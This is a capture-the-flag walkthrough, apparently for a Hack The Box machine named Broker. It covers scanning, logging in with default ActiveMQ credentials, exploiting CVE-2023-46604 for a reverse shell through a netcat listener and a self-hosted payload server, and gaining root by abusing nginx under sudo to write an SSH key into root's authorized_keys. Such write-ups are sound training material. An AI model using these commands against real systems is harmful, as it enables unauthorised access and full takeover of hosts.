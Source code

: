 Exploitable externally and something identified on past engagements
* Host information: `10.129.231.4`
# User
* `nmap -sC -sV 10.129.231.4`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:54 EDT
Nmap scan report for 10.129.231.4
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
```
* Browsing to port 80 takes you to a login page
	* looked up default creds for ActiveMQRealm (`admin:admin`)
	* resulted in a successful login
![](Broker-paste.png)
* Seeing as the lab is called broker I decided to investigate the `Manage ActiveMQ broker` link
![](Broker-paste-1.png)
* I can see that the version is 5.15.15, so I decided to investigate potential vulnerabilities for this version
	* https://nvd.nist.gov/vuln/detail/CVE-2023-46604
* looked up CVE-2023-46604 poc and got https://github.com/evkl1d/CVE-2023-46604
	* The POC needs to be running on a webserver **you host** not on the website
		* `python -m http.server 8081`
	* Also need a nc listener
		* `sudo nc -nlvp 8100`
	* THEN you run the exploit command: `python exploit.py -i <target-ip> -p <target-port> -u <url-to-poc.xml>`
		* The target port is **NOT** port 80, but 61616
			* port 80 is the UI
			* port 61616 is the default port it's running on
* This will call back as a reverse shell for the user `activemq`
	* the home directory has the user flag
# Root
* First thought is to see if root is not password protected with `sudo su` but no luck
* I then decided to list the allowed (and forbidden) commands for the invoking user on the current host with `sudo -l` 
	* This command helps users understand what privileges they have when using sudo
![](Broker-paste-2.png)
* I was able to see that the activemq user is able to run the nginx command with sudo privileges
* I then researched nginx privilege escalation and found [this git repo](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406)
	* A big issue I had with this exploit was that both`nano` and `vi` started looking and acting jank when I tried to use this
		* to resolve this, I made the conf file on my kali host and uploaded it to the web server I was hosting to pull the `poc.xml` from
* After creating the conf file and pulling it to the broker box, I loaded the conf file onto nginx with `sudo nginx -c /tmp/urmom.conf`
* I then generated a pair of ssh keys for myself, and added my public key to the root user with: 
```bash
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
```
* Finally, I sshed into the box as root with:
```bash
ssh -i .ssh/id_rsa -o StrictHostKeyChecking=no root@<BOXIP>
```
* `-o StrictHostKeyChecking=no` is needed or else it complains about a missing host key